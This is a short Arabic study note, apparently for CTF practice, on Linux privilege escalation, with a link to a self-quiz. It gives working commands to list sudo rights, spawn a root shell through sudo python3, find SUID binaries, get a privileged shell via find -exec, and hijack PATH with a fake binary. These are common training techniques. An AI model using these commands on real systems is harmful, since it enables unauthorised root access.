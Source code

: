 ### ✅ **الخطوات:**

1. شوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:
    
    ```bash
     sudo -l
    ```
لو النتيجه طلعت كده 
![Pasted image 20250315152254.png](attachments/Pasted image 20250315152254.png)
اعمل الاتي

2. لو لقيت أمر ممكن يستغل، جرب تشغيل Shell:
    
    ```bash
    sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
3. لو لقيت أمر بيشغل ملفات، جرب تعمل **Hijacking** للملف اللي بيشغله.

---

## 🔥 **2. استغلال SUID (Privilege Escalation via SUID Binaries)**

### ✅ **الخطوات:**

1. دور على كل ملفات SUID:
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
2. شوف لو فيه أمر معروف عنده SUID، زي `find` أو `vim` أو `bash`:
    
    ```bash
    /usr/bin/find . -exec /bin/bash -p \;
    ```
    
3. لو الملف بيستدعي أمر معين، اعمل **Hijacking** باستخدام PATH Variable:
    
    ```bash
    echo "/bin/sh" > fake_ls
    chmod +x fake_ls
    export PATH=.:$PATH
    /custom_script
    ```
    

---

## 🔥 **الخلاصة العامة بالعامية:**

1. **sudo -l** ده أول حاجة تشوفها، لو تقدر تشغل حاجة بـ sudo بدون باسورد، غالبًا تقدر توصل لـ root.
2. **لو لقيت SUID file**، شوف بيعمل إيه، وجرب تشغله بطرق مختلفة.
3. **لو ملف بيستدعي أوامر خارجية**، حاول تلعب في الـ PATH وتخليه يشغل حاجة انت عاملها بنفسك.

💡 **نصيحة**: لو بتلعب في CTF أو بتعمل **Privilege Escalation**، دايمًا جرب **GTFOBins** و `sudo -l` و `find / -perm -4000` كخطوات أولى. 🚀


# اختبر حفظك : [[Abusing sudo and SUID binaries (Q).]]